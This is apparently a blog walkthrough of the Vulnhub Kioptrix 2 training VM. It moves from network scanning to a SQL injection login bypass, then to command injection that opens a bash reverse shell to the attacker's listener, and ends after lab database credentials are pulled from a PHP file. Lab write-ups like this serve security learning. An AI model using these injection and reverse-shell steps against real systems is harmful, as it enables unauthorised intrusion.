 ```yaml
---
layout: post
title:  "Vulnhub - Kioptrix 2"
date:   2017-04-19 18:19:00 +0100
categories: vulnhub kioptrix
---
```


{% highlight bash %}
root@kali:~# arp-scan -l
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
192.168.137.1	00:50:56:c0:00:01	VMware, Inc.
192.168.137.133	00:0c:29:9e:ff:2f	VMware, Inc.
192.168.137.254	00:50:56:fe:05:d2	VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9: 256 hosts scanned in 1.851 seconds (138.30 hosts/sec). 3 responded
{% endhighlight %}

{% highlight bash %}
root@kali:~# nmap -A 192.168.137.133

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-04-19 19:24 BST
Nmap scan report for 192.168.137.133
Host is up (0.00019s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            855/udp  status
|_  100024  1            858/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2017-04-19T15:15:02+00:00; -3h09m44s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:9E:FF:2F (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.19 ms 192.168.137.133

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.14 seconds
{% endhighlight %}

I didn't really know SQL Injection going into this, and I did end up looking up the solution

{% highlight mysql %}
' or 1=1 --
{% endhighlight %}

This is a pretty standard example of an SQL injection and gives us access to form allowing us to ping a device on the network.  This immediately suggested some form of command injection.  Since it's a vulnerable machine, it seemed fairly obvious that we could input some other command.  So lets try and spawn a reverse shell.

{% highlight bash %}
192.168.137.128 && bash -i >& /dev/tcp/192.168.137.128/1234 0>&1
{% endhighlight bash %}

Boom!  We have a shell.

{% highlight bash %}
root@kali:/usr/share/wordlists# nc -l -p 1234 -vvv
listening on [any] 1234 ...
192.168.137.133: inverse host lookup failed: Unknown host
connect to [192.168.137.128] from (UNKNOWN) [192.168.137.133] 32771
bash: no job control in this shell
bash-3.00$ ls
index.php
pingit.php
bash-3.00$ 
{% endhighlight bash %}

Let's have a look inside the php files and see if we see anything interesting.  Inside index.php after a little searching we find some credentials to the local mysql database.

{%highlight php %}
mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
{%endhighlight%}
